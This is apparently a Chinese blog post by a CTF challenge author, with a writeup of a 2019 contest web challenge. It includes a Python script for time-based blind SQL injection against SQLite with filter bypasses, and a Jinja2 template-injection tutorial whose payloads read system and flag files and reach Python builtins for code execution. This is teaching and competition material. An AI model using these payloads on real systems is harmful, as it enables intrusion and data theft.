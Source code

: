 ```yaml
---
title: 2019信安国赛出题经历
date: 2019-06-05 15:22:45
categories:
    - 信息安全
    - WEB
tags:
    - Python
    - 数据库
---
```


## 前言
* 无力吐槽的信安国赛，段子乎喷了上届比赛有多坑，感觉这届也不差啊？
* 算了，我知道是我太菜。

---
* 本博客记录了一篇2019信安国赛复赛本队出题的一些经历。包括题目思路，搭建方法，以及writeup。
* 尽管我们没有最后参加复赛，但是也发现出题是一个很好的锻炼方式。

![](1.jpeg)

<!--more-->

## MORE

* 题目名称：不仅仅是个SQL
* 出题人：CC from nothing

### POINTS
1. 基于SQLITE数据库的盲注
2. 基于jinja2模板注入漏洞的任意代码执行漏洞

### WRITEUP
![](2.jpg)
* 打开网站首先看到的是一个登陆界面

![](1.jpg)
* 照例查看一下网站的robots.txt看一下有没有什么可以发现的。
* robots.txt中是网站登陆认证逻辑的源码，可以看出后算是使用python编写，数据库为sqlite。并对用户输入进行了过滤。

![](2.jpg)
* 输入常用payload发现没有任何回显，所以这里需要盲注
* sqlite3数据库的盲注是采用randomblob()函数
    randomblob()函数生成指定长度的随机字符串。当这个长度足够大的时候就会让服务器产生明显的延迟。这样就可以判断语句的执行成功与否。
* 经过多次尝试发现后端过滤了小写的select，from等关键词。于是采用如图所示的方式注入
* 我们编写了如下脚本来注入获取密码

    ```
    def sqlpw(url):
    session=requests.Session()
    params={"password":"0"}
    password=""
    for i in range(32):
        for x in "0123456789abcdefghijklmnopqrstuvwsyz":
            try:
                username="admin'AND(SELECT(hex(substr(password,{},1)))FROM(users))=hex('{}')AND(randomblob(1000000000))--".format(i+1,x)
                params['username']=username
                # print(params)
                r=session.post(url,data=params,timeout=1)
                # print(r.status_code)
            except exceptions.Timeout:
                password=password+x
                logging.info(password)
                sleep(3)
                break
    return password
    ```
* 运行脚本之后我们就获取到了密码的md5值，利用网上很多的md5查询库便可以得到密码原文

![](3.jpg)
* 使用用户名密码登陆成功之后出现如上的欢迎界面。检查网页源码发现flag位于根目录下
* 这里的鸟居图片既是另一个提示。jinja2项目的LOGO
![](4.png)

![](4.jpg)
* 从URL传入参数username入手写入测试payload验证漏洞存在

![](5.jpg)
* 经过测试发现注入点过滤方括号，于是构成如图所示payload完成注入获得flag

## Jinja2模板注入漏洞
* Jinja2漏洞最早出现在py2的版本上。
* 漏洞原理基本就是传入的url中如果包含python脚本也是会被模板解析的。因为模板能够访问python内置变量以及变量方法。
* 注意python2和python3存在差别在类层结构上存在差别

```
__class__   返回调用参数类型
__base__    返回基类
__mro__     允许我们在当前Python环境下追溯继承树
__subclasses__()    返回子类
```


1. 获取基类
    
    首先通过str，dict，tuple，list等类型来获取python的基本类（因为python万物皆对象）你也可以通过一些其它jinja2已经导入的包来获取基类

    ```
    python3:
    ''.__class__.__base__
    [].__class__.__base__
    requests.__class__.__base__

    python2:
    ''.__class__.__mro__[2]
    [].__class__.__base__
    requets.__class__.__mro__[8]
    ```

    获取基类的方法可以在python命令行中输入尝试
    
    **如果题目对中括号做了限制，也可以通过__getitem__(2)函数绕过限制**

1. 读取文件

    **以下基类通过object代替**
    
    ```
    python2：
    object.__subclasses__()[40]('/etc/password
    ').read()
    //获取file类读文件
    ```

    python3中要复杂的多，首先是python3的类层结构和python2下相比会复杂的多。其次python3的类必须经过初始化等等操作才可以使用其内建函数

    ```
    python3:
    object.__subclasses__()[78].__init__.__globals__.__builtins__.open("./flag.txt",encoding="utf-8").read()
    ```

    python3中我们获取子类列表之后随便选择一个类，查看其__init__
    ```
    <slot wrapper '__init__' of 'object' objects>
    ```
    wrapper是指这些函数没有被重载。这是他们并不是function，并不具有___globals__属性。我们在多尝试几个子类就可以找到一个被__init__的类，比如。接下来就可以使用内置函数执行命令。

以上都只是最基础的操作，jinja2模板注入还有很多其他操作需要更多的尝试理解才可以完成。

## 后记

* 这次比赛真是一个很不愉快的体验。这个题目出题到写博客也隔了很久。所以有些细节在本博客中可能描述的很不清楚。（总之这篇博客很垃圾就是了）在图书馆办公室一边修理爬虫一边跑着爬虫利用闲暇之余写出来的博客真的质量不高令人堪忧。总之就这样吧，感谢阅读。



